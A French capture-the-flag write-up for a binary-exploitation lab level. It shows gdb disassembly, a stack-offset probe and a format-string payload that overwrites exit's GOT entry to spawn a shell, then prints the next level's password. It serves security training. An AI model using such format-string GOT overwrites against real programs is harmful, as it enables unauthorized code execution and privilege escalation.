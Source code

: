 
# Level 5

On vas encore une fois utiliser une format string attaque. Cette fois nous avons une fonction `n` appeler dans le main qui va appeler comme les fois precedante printf avec le retour de l'entrer standard lue avec `fget`. Mais cette foi pas de condition qui donne les droit, elle exit apres le printf, par contre nous avons une fonction `o` a l'adresse `0x080484a4` non-appeler qui execute un `"/bin/sh"` donc il faut donc appeler la fonction `o` a la place de `exite`. Il faut maintenant trouver l'adresse d'`exit` pour ce faire on va ouvrir la fonction `n` avec *gdb*
```
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   %ebp
   0x080484c3 <+1>:     mov    %esp,%ebp
   0x080484c5 <+3>:     sub    $0x218,%esp
   0x080484cb <+9>:     mov    0x8049848,%eax
   0x080484d0 <+14>:    mov    %eax,0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp)
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:    mov    %eax,(%esp)
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:    mov    %eax,(%esp)
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
```
On ne peut pas ecrire sur l'*EIP* car le progrmme ce terminerais avant. Mais on peut remplacer l'adresse de sortie dans le GOT par l'adresse de "o", pour l'appeler au lieu de exit.
```
(gdb) x/i 0x80483d0
   0x80483d0 <exit@plt>:        jmp    *0x8049838
(gdb) 
```
En utilisant la meme logique que les levels precedents on cherche la position dans la stack ici on voit que l'adresse est en 4 position.
```
level5@RainFall:~$ python -c "print 'aaaa' + ' %x' * 4" | ./level5
aaaa 200 b7fd1ac0 b7ff37d0 61616161
level5@RainFall:~$
```
On injecte donc l'adresse de la fonction o a la place de l'exit initialement appeler. Etant donner que nous utilison `%n` Il faut donner l'adresse de o en decimal - 4 octets
-  `0x080484a4` = 134513828
- 134513828 - 4 = 134513824
```
level5@RainFall:~$ python -c "print '\x38\x98\x04\x08' + '%134513824d%4\$n'" > /tmp/payload
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```